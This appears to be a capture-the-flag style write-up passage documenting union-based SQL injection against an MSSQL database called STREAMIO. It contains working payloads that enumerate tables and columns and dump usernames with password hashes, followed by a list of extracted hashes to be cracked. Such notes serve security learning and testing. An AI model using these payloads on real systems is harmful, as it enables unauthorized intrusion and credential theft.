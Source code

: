 dump each row in the table without multiple queries.


```
10' union select 1, (SELECT STRING_AGG(name, ',') name FROM STREAMIO..sysobjects WHERE xtype= 'U'),3,4,5,6-- -
```


and we got two tables, movies and users


now let's get the cols

```
10' UNION SELECT 1,name,3,4,5,6 FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')-- -
```


and we got the following cols:
![[Screenshot 2025-04-02 at 10.46.47 PM.png]]



Finally we can extract the credentials from the database using CONCAT to dump both the usernames and

passwords but divided by a space as shown in these https://www.mssqltips.com/sqlservertip/6991/sql-concatenate-examples/

```
10' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
```


![[Screenshot 2025-04-02 at 10.50.35 PM.png]]


and we get those usernames with hashed passwords.

Now I'm gonna get the usernames and with crackable hashed and there passwords and same them in usernames, and passwords:

so we are gonna test the following hashes, to see which one is valid, using the following website: https://hashes.com/en/tools/hash_identifier
```
665a50ac9eaa781e4f7f04199db97a11
1c2b3d8270321140e5153f6637d3ee53
0049ac57646627b8d7aeaccf8b6a936f
3961548825e3e21df5646cafe11c6c76
54c88b2dbd7b1a84012fabc1a4c73415
22ee218331afd081b0dcd8115284bae3
2a4e2cf22dd8fcb45adcb91be1e22ae8
35394484d89fcfdb3c5e447fe749d213
ef8f3d30a856cf166fb8215aca93e9ff
ec33265e5fc8c2f1b0c137bb7b3632b5
8097cedd612cc37c29db152b6e9edbd3
0cfaaaafb559f081df2befbe66686de0
c660060492d9edcaa8332d89c99c9239
6dcd87740abb64edfa36d170f0d5450d
08344b85b329d7efd611b7a7743e8a09
ee0b8a0937abd60c2882eacb2f8dc49f
7df45a9e3de3863807c026ba48e55fb3
b83439b16f844bd6ffe35c02fe21b3c0
fd78db29173a5cf701bd69027cb9bf6b
f03b910e2bd0313a23fdd7575f34a694
dc332fb5576e9631c9dae83f194f8e70
f87d3c0d6c8fd686aacc6627f1f493a5
083ffae904143c4796e464dac33c1f7d
384463526d288edcc95fc3701e523bc7
3577c47eb1e12c8ba021611e1280753c
925e5408ecb67aea449373d668b7359e
```